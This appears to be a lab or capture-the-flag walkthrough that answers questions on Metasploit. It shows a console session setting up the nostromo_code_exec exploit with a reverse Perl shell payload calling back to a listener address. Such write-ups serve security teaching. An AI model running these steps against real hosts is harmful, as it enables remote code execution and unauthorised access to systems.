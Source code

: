 ## Metasploit - Final Walkthrough

### Select the module that needs to be exploited
- **Answer:** use exploit/multi/http/nostromo_code_exec

### What variable do you need to set, to select the remote host?
- **Answer:** RHOSTS 

### How do you set the port to 80?
- **Answer:** set RPORT 80

### How do you set listening address?
- **Answer:** LHOST

### Exploit the machine!

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/http/nostromo_code_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.237.243
RHOSTS => 10.10.237.243
msf6 exploit(multi/http/nostromo_code_exec) > set rport 80
rport => 80
msf6 exploit(multi/http/nostromo_code_exec) > set LHOST 10.17.7.91
LHOST => 10.17.7.91
msf6 exploit(multi/http/nostromo_code_exec) > options

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.237.243    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'f
                                       ile:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addre
                                       ss on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.17.7.91       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)
```